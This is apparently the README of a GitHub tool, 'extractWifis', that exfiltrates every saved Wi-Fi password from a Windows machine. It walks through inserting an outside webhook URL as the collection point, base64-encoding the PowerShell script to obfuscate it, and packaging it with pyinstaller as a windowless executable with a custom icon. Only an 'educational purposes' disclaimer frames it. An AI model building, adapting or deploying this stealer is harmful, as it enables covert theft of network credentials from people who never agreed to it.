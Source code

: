 # extractWifis

Exfiltrate all saved Wi-Fi passwords from Windows

## Requirements

1. On your Windows machine install Python https://www.python.org/downloads/
 
2. Install pyinstaller `C:\> pip install pyinstaller`

3. Create a webhook
- https://requestinspector.com
- https://beeceptor.com
- https://webhook.site


## Instructions

1. Open  `getwifis.ps1` and replace `WEBHOOK_URL_HERE` with your webhook url.

2. Encode Powershell  
- Linux command:
```bash
iconv -f ASCII -t UTF-16LE getwifis.ps1 | base64 -w0
```

- Powershell command (you must remove new lines):
```powershell
$data = Get-Content C:\getwifis.ps1
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($data))
```

3. Open `script.py` and replace `B64_HERE` with your base64 code.

4. Create executable
```cmd
c:\> pyinstaller --onefile --noconsole --icon=icon.ico script.py
```

Executable will be placed on `dist` folder

## Disclaimer
Usage of these scripts for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## Support
[<img width=300 alt="patreon" src="https://i0.wp.com/thegoodhackertv.com/wp-content/uploads/2020/11/patreon.png">](https://www.patreon.com/thegoodhacker)
[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-orange.png">](https://www.buymeacoffee.com/thegoodhacker)

